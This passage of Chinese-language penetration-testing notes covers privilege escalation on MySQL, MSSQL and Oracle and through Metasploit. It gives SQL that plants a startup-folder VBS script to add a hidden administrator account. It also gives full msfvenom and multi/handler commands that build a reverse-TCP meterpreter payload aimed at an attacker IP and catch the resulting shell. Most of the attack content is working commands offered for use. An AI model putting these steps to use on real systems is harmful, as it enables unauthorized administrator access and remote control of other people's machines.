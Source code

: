 *   然后重启服务即可

#### 启动项提权

*   已知 root 密码
*   `file_priv`不为`null`

```
create table a (cmd text); 
insert into a values ("set wshshell=createobject (""wscript.shell"") " ); 
insert into a values ("a=wshshell.run (""cmd.exe /c net user naraku 123456 /add"",0) " ); 
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators naraku /add"",0) " ); 
select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
```

### MSSQL

*   前提：拿到 SA 密码

#### 利用方式

*   传统`xp_cmdshell`利用
    *   `xp_cmdshell`被删如何恢复
*   借助 COM 组件执行命令
*   借助 CLR 执行命令（类似 MySQL UDF）
*   本地 Hash 注入 + 端口转发 / Socks 实现无密码连接目标内网 MSSQL
*   利用 Windows 访问令牌实现无密码连接目标内网 MSSQL

### Oracle

*   通常情况下 Oracle 服务的运行权限都非常高
*   MSF 下各类自动化利用模块
*   通常情况下，Oracle 服务的运行权限都比较高

MSF 提权
------

*   注意以下命令执行时的状态
    *   `$`：Linux 命令行下
    *   `msf`：进入 MSF 控制台
    *   `meterpreter`：进入某个`session`

```
# 生成木马并放入靶机
$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<攻击机IP> lport=<攻击机监听端口> -f exe -o /tmp/win.exe
# 攻击机监听
$ msfconsole
msf> use exploit/multi/handler 
msf> set payload windows/meterpreter_reverse_tcp
msf> set lhost <攻击机IP>
msf> set lport <攻击机端口>
msf> exploit
# 靶机运行,此时攻击机MSF会接收到反弹的Shell,在MSF中运行shell命令
meterpreter> shell 
C:\Users\Naraku\Desktop>whoami
naraku-win7\naraku
# 出现中文乱码可运行
# C:\Users\Naraku\Desktop>chcp 65001
```
